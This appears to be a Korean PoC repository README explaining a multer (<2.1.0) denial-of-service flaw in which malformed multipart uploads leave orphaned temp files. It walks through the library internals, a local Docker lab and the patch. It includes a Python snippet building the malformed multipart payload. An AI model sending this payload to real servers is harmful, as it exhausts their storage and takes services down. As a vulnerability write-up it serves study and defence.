





# CVE 요약

multipart/form-data 형식의 파일을 처리하는 과정에서 발생하는 cleanup(임시파일 정리)
로직의 누락에서 비롯된 취약점 입니다.

해당 취약점으로 서버 스토리지 자원을 고갈시켜 웹 서비스 장에(DoS)를 유발합니다.


# CVE Detail

해당 취약점은 Node.js 웹 프레임워크인 Express JS 생태계에서 널리 사용되는
파일 미들웨어 **multer(<2.1.0)** 에서 발생하는 취약점 입니다.

express에서 multer를 활용하여 파일입력을 받을때
보통의 경우 다음과 같이 미들웨어를 등록 후 사용하게 됩니다.

```js
const multer = require('multer');

// Define the file filter function const
fileFilter = (req, file, cb) => { // Check the MIME type
	if (file.mimetype === 'image/jpeg' || file.mimetype === 'image/png') {
		cb(null, true);
	}
	else {
		cb(new Error('Unsupported file type.'), false);
	}
}

const upload = multer({ dest: 'uploads/',
						limits: { fileSize: 1024 * 1024 * 5 }, // 5MB limit 
						fileFilter: fileFilter });
```

하지만 다음과 같이 `setImmediate` 등을 이용하여 `fileFilter`의 콜백 함수를
**비동기적으로 호출**할 경우 취약점이 발생하게 됩니다.

```js
fileFilter = (req, file, cb) => {
	\.\.\.
	setImmediate(function () {
		cb(null, ture);
	});
	\.\.\.
}
```


## payload

페이로드는 두개의 파트로 구분되어 있습니다.
첫번째 파트는 정상 multipart/form-data 헤더, 두번째 파트는 `name` 필드가 누락된
조작된 헤더로 구성되어 있습니다.

```python
b = boundary.encode()
data = b''

# 첫 번째 파트: 정상 형식 (스트림 생성만 함)
data += b'--' + b + b'\r\n'
data += b'Content-Disposition: form-data; name="file"; filename="legit.bin"\r\n'
data += b'Content-Type: application/octet-stream\r\n'
data += b'\r\n'
data += b'A' * payload_size
data += b'\r\n'

# 두 번째 파트: name 속성 누락 (malformed) — 취약점 트리거
data += b'--' + b + b'\r\n'
data += b'Content-Disposition: form-data; filename="malformed.bin"\r\n'
data += b'Content-Type: application/octet-stream\r\n'
data += b'\r\n'
data += b'x\r\n'

# 종료
data += b'--' + b + b'--\r\n'
```

위와 같은 페이로드를 서버로 전송하게 되면 다음과 같은 과정을 거쳐 취약점이 발생하게 됩니다.


## 페이로드 처리과정

multer 라이브러리는 내부적으로 `make-middleware.js`에서 `busboy.on('file', ...);`
로 파일을 처리합니다. (이때 busboy의 file 이벤트는 매 파일 파트 마다 실행됩니다.)

### 1. 첫번째 파트 처리

`busboy.on('file', ...)` 내부의 `fileFilter(req, file, callback);` 가 호출됩니다.
이때 서버에서는 fileFilter의 콜백 함수를 `setImmediate()`로 비동기처리하여
정상 파일처리 콜백함수가 즉시 실행되지 않고 다음 이벤트 루프로 넘어가게 됩니다.

### 2. 두번째 파트 처리

`busboy.on('file', ...)`이 실행됩니다.
이때 두번째 파트에 `name`이 누락되었으므로
아래와 같이 HTTP 500 스케쥴을 진행합니다.

```js
busboy.on('file', function(filedname, fileStrem, \.\.\.) {
	\.\.\.
	if (filedname == null) return abortWithCode('MISSING_FILED_NAME')
})
```

```js
function abortWithError (uploadError) {
      if (errorOccured) return
      errorOccured = true

      pendingWrites.onceZero(function () {
        function remove (file, cb) {
          storage._removeFile(req, file, cb)
        }

        removeUploadedFiles(uploadedFiles, remove, function (err, storageErrors){
          if (err) return done(err)

          uploadError.storageErrors = storageErrors
          done(uploadError)
        })
      })
    }
```

이때 미들웨어 전역변수인 `errorOccured = true`로 세팅이 되지만
앞서 정상 처리과정인 파트1 과정에서 카운터 증가 코드가 담긴 콜백 함수가
다음 이벤트 루프로 넘어가 실행이 되지 않았기 때문에

전역카운터 함수인 `pendingWrites.onceZero()`가 실행되지 않아
결과적으로 임시파일들이 제거되지 않습니다.

### 3. 다음 이벤트 루프 (첫번째 정상 처리 콜백함수 실행)

파트 1에서 `setImmediate()`로 비동기 처리된 `fileFilter`의 콜백함수가 실행됩니다.
콜백함수 내부에는 앞선 에러발생으로 `errorOccured = true`로 세팅되었지만
해당 변수를 검사하는 로직이 존재하지 않습니다.

때문에 비정상적인 요청임에도 불구하고 `storage._handleFile()`이 실행되어
서버에 파일이 생성됩니다.


# 환경 구성 및 실행

다음 명령어를 실행하여 poc 환경을 구성합니다.

```bash
docker compose up
```

서버가 시작되면 `http://localhost:3000`에서 poc 실습 페이지를 확인할 수 있습니다.

해당 페이지에서 확인해 볼수있는건 총 3가지 입니다.

1. 정상 파일 업로드
2. part 1로만 구성된 조작된 파일 업로드 헤더
3. CVE-2026-3304 PoC 헤더

## 1. 정상 파일 업로드



웹사이트의 정상헤더인 파일 업로드 기능입니다.
파일 하나를 선택하거나 해당 칸으로 드래그 한 뒤 업로드 버튼을 누르면 아래 미들웨어가 실행됩니다.

```js
app.post('/upload', upload.single('file'), (req, res) => {
console.log({ status: 'ok', file: req.file })
res.json({ status: 'ok', file: req.file })
})
```

업로드된 파일을 콘솔에서 확인할 수 있습니다.


## 2. part 1으로만 구성된 조작된 파일 헤더



아래 패널에서 `정상 처리` 버튼을 누르면 part 1으로만 구성된 조작된 헤더가 서버로 전송됩니다.



그러면 multer에서 field name missing 에러로 임시파일은 생성되지 않습니다.

## 3. CVE PoC

> 전체 PoC 코드는 exploit/poc.py에서 확인할 수 있습니다.

2번과 같은 패널에서 요청수와 페이로드 크기를 설정한 뒤 `PoC 실행` 버튼을 누르면 우측 상단에
Orphan File들이 생성되는걸 확인할 수 있습니다. (1000개 / 50KB)



마찬가지로 '/upload' 미들웨어가 실행되지 않고 콘솔에서 MulterError를 확인할 수 있습니다.

>해당 취약점으로 발생한 임시 파일들은 미들웨어가 실행되지 않기 때문에 
>어플리케이션(express)레벨에서 탐지가 어렵습니다.


# MITIGATION

해당 취약점은 fileFilter() 콜백 함수의 전역변수 `errorOccured`를 검사하는 로직을 추가하여
2.1.0 버전으로 패치되었습니다.

```js
fileFilter(req, file, function(err, includeFile) {
	\.\.\.
	if (errorOccured) {
		appender.removePlaceholder(placeholder)
		return fileStream.resume() // drain stream - no file written
	}
})
```

취약한 버전의 multer를 사용하더라도 fileFilter의 콜백함수를 동기적으로 호출하게 되면
해당 취약점이 트리거 되지 않습니다.